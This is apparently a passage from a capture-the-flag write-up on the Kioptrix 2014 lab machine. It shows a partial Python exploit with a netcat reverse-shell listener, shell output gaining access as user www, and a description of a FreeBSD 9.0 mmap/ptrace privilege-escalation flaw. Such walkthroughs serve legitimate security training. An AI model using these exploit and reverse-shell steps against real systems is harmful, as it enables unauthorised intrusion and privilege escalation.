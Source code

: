 ```python


def exploit():
    http = urllib3.PoolManager()
    resp = http.request('GET', url, headers={'User-Agent':'Mozilla/4.0'})

def listener():
    os.system("nc -vlnp {}".format(lport))

def main(): 
    l = threading.Thread(target=listener)
    e = threading.Thread(target=exploit)

    l.start()
    time.sleep(2)
    e.start()

if __name__ == "__main__":
    main()
```

We run the exploit and we get a shell.

```bash
root@kali:~$ python3 pwn.py 192.168.179.168 192.168.179.1 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.168] 56350
id
uid=80(www) gid=80(www) groups=80(www)
/bin/csh -i
Warning: no access to tty (Bad file descriptor).
Thus no job control in this shell.
kioptrix2014#
```

By listing the kernel version, it appears to be vulnerable to kernel exploitation.

```bash
kioptrix2014# uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

## Privilege Escalation
### Linux Kernel

The vm_map_lookup function in sys/vm/vm_map.c in the mmap implementation in the kernel in FreeBSD 9.0 through 9.1-RELEASE-p4 does not properly determine whether a task should have write access to a memory location, which allows local users to bypass filesystem write permissions and consequently gain privileges via a crafted application that leverages read permissions, and makes mmap and ptrace system calls.

We download the exploit and start a web server with python.
